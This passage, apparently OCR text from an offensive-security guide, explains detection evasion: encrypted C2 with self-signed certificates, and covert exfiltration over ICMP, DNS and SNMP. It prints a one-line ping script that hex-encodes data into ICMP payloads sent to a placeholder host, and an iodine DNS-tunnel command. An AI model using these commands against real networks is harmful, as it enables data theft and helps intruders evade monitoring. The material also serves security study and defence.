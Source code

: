         SSL/TLS C2 Channels: Implementing SSL/TLS encryption for C2 channels ensures that the traffic is encrypted, making it harder for IDS to inspect. Self-signed certificates can be used to avoid the detection of known certificate authorities.

        Tools: Metasploit’s Meterpreter supports encrypted communications by default.

Conclusion

Avoiding detection and attribution is a dynamic and complex aspect of operational security that requires constant adaptation and awareness of the latest detection and tracking methods. As security measures evolve, so too must the techniques used to circumvent them. This section outlines the advanced strategies and tools available to hackers, researchers, and investigators to obfuscate their activities and maintain their anonymity effectively. Understanding these methods and their implementation is critical for anyone operating in sensitive or adversarial environments.

Advanced Detection and Attribution Avoidance Techniques
A. Leveraging Common Network Tools for Covert Data Transmission

    ICMP Tunneling (Using ping to Stuff Data):

        Concept: ICMP (Internet Control Message Protocol) packets, which are commonly used for the ping command, can be exploited to carry hidden data within the payload. This method takes advantage of the fact that ICMP traffic is often overlooked by network monitoring tools, making it a covert channel for data exfiltration.

        Implementation:

            Using Tools: ptunnel is a tool that allows tunneling of TCP connections over ICMP packets. Alternatively, custom scripts can be written to use ping for transferring data by embedding encoded messages in the ICMP payload.

            Example Script:

            bash

        # Simple ICMP Data Exfiltration Script
        echo "sensitive data" | xxd -p | while read line; do ping -c 1 -p "$line" target_ip; done

    Detection Avoidance: By carefully controlling the size and frequency of ICMP packets, the traffic can mimic legitimate network activity, reducing the likelihood of raising alarms.

DNS Tunneling:

    Concept: Similar to ICMP tunneling, DNS tunneling involves encoding data into DNS queries and responses. Since DNS traffic is almost always allowed through firewalls and rarely logged, it provides an effective method for exfiltrating data or establishing C2 communications.

    Tools: iodine, dns2tcp, and DNScat2 are popular tools that facilitate DNS tunneling.

    Command Example (Using iodine):

    bash

    iodine -f -P password subdomain.example.com

Using SNMP for Data Exfiltration:

    Concept: SNMP (Simple Network Management Protocol) is used for monitoring and managing network devices. It's possible to encode data in SNMP traps or use SNMP GET/SET requests to send hidden messages.

